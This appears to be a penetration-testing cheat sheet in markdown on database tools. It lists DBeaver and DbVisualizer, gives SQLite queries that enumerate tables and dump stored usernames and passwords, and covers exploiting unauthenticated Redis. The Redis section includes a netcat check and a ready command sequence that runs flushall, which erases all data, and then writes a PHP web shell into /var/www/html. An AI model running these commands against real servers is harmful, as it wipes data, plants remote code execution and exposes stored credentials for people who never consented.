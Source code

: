 
#### DBeaver

* [DBeaver Community](https://dbeaver.io/)


#### DbVisualizer

* [DbVisualizer](https://www.dbvis.com/)



### SQLite

```
SELECT tbl_name FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='secret_database';
SELECT username,password FROM secret_database;
```



### Redis


#### Preparation

Install **[1]** or **[2]**:

```
root@kali:$ mkdir ~/tools/redis-cli-go && cd ~/tools/redis-cli-go
root@kali:$ wget [1] -O redis-cli-go && chmod +x redis-cli-go
root@kali:$ ln -s ~/tools/redis-cli-go/redis-cli-go /usr/local/bin/redis-cli-go && cd -
```

1. [github.com/holys/redis-cli/releases](https://github.com/holys/redis-cli/releases)
2. [github.com/antirez/redis](https://github.com/antirez/redis)

Check if vulnarable:

```
root@kali:$ nc 127.0.0.1 6379
Escape character is '^]'.
echo "Hey, no AUTH required!"
$21
Hey, no AUTH required!
quit
+OK
Connection closed by foreign host.
```


#### Web Shell

```
root@kali:$ redis-cli -h 127.0.0.1 flushall
root@kali:$ redis-cli -h 127.0.0.1 set pwn '<?php system($_REQUEST['cmd']); ?>'
root@kali:$ redis-cli -h 127.0.0.1 config set dbfilename shell.php
root@kali:$ redis-cli -h 127.0.0.1 config set dir /var/www/html/
root@kali:$ redis-cli -h 127.0.0.1 save
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)
